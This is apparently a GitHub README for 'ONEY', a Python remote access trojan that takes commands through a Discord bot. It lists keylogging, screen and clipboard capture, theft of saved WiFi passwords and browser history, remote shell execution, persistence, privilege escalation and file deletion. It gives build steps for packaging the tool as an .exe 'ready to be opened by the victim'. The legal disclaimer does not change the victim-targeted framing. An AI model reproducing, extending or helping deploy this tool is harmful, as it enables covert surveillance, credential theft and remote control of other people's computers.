

# Discord-Bot-RAT ONEY

[](https://python.org)
[](https://www.microsoft.com/windows)
[](https://www.gnu.org/licenses/gpl-3.0)
[](https://github.com/psf/black)

A remote Discord-based administration system.





## 🌟 Feature Highlights

### 🕵️‍♂️ Surveillance Module
| Feature | Command | Preview |
|---------|---------|---------|
| Screen Capture | `!screen` | Screenshot |
| Keylogger | `!log`/`!stoplog` | `[LOG] Keys: [Enter]T[E]S[T]` |
| Clipboard | `!clipboard` | Copies current clipboard |

Runs in the background, sets itself to run at startup, checks if user is connected to the internet before running main code.

### 💻 System Control
```
!exec ipconfig        # Remote command execution
!su                   # Privilege escalation
!persist              # Install persistence
!bsod                 # Emergency trigger

 Hardware Inventory
!cpu                  # CPU specs
!ram                  # Memory (GB) 
!drives               # Storage analysis

 Network Recon
!ip                   # IP address
!wifi                 # Connected networks
!dns                  # DNS configuration

and more! (check below)
```
## 🚀 Deployment

Requirements
```
pip install -r requirements.txt

python oney.pyw
```
File extension can be modified to:
```
.py for console logs. (you need the requirements installed on the victims pc.)

.pyw discrete. (you need the requirements installed on the victims pc.)

.exe if you compile it with pyinstaller. (Recommended! no requirements or python needed, just an .exe file ready to be opened.)
```
## 🛠 Discord Bot Setup Guide
1. Create a Discord Application


Go to the Discord Developer Portal https://discord.com/developers/applications

Click "New Application" → Name it (e.g., "oney") → Click "Create"

2. Give Administrator


Navigate to the "Bot" tab in left sidebar


Click Administrator down below

3. Configure Bot Permissions


Under "Privileged Gateway Intents", enable:
```
✅ Presence Intent

✅ Server Members Intent

✅ Message Content Intent

```
Copy your Bot Token (click "Reset Token" if blank)

4. Invite Bot to Your Server


Go to "OAuth2" → "URL Generator"

Select these scopes:
```
bot

applications.commands
```
Set these permissions (checkboxes):

Administrator

Copy the generated URL and visit it in your browser

## Configuration
Edit python file:

```
  "token": "token"
  ```
   Replace token with your discord bot token. get it from https://discord.com/developers/applications

## Production (Recommended)
pip install pyinstaller

pyinstaller --onefile --windowed --icon=assets/icon.ico oney.pyw

This will generate a .exe file in the dist folder ready to be opened by the victim, no requirements or python needed to open it.


# ⚖️ Legal Compliance

Warning

This tool is only for:
```
Authorized pentesting

Educational research

System administration
```
Document all consent before use.
Violations may incur penalties under:
```
CFAA (18 U.S. Code § 1030)

GDPR Article 5

Local computer crime laws
```
📜 Full Command Reference

    commands_list = [
        ('!screen', 'Capture and send a screenshot'),
        ('!ip', 'Get the IP address'),
        ('!clipboard', 'Show clipboard content'),
        ('!exec <command>', 'Run a shell command'),
        ('!shutdown', 'Shutdown the computer'),
        ('!bsod', 'Trigger a BSOD (WARNING)'),
        ('!msg <message>', 'Show a Windows message box'),
        ('!url <url>', 'Open a URL in browser'),
        ('!restart', 'Restart the computer'),
        ('!cancelrestart', 'Cancel a scheduled restart'),
        ('!log', 'Start keylogging (sends every 15s)'),
        ('!stoplog', 'Stop keylogging'),
        ('!ls', 'List files in the current directory'),
        ('!cd <path>', 'Change the current directory'),
        ('!rm <filename>', 'Delete a file'),
        ('!rmd <dirname>', 'Delete a directory'),
        ('!download <filename>', 'Download a file'),
        ('!uuid', 'Get the system UUID'),
        ('!mac', 'Get MAC addresses'),
        ('!dns', 'Get DNS server info'),
        ('!wifi', 'Show connected WiFi info'),
        ('!wifi_passwords', 'Show saved WiFi passwords'),
        ('!systeminfo', 'Show system information'),
        ('!cpu', 'Show CPU information'),
        ('!gpu', 'Show GPU information'),
        ('!ram', 'Show RAM information in GB'),
        ('!drives', 'Show drives information in GB'),
        ('!hostname', 'Show the hostname'),
        ('!osinfo', 'Show OS version'),
        ('!user', 'Show current user'),
        ('!recent [browser]', 'Show recently visited websites'),
        ('!su', 'Request administrator privileges')
    ]
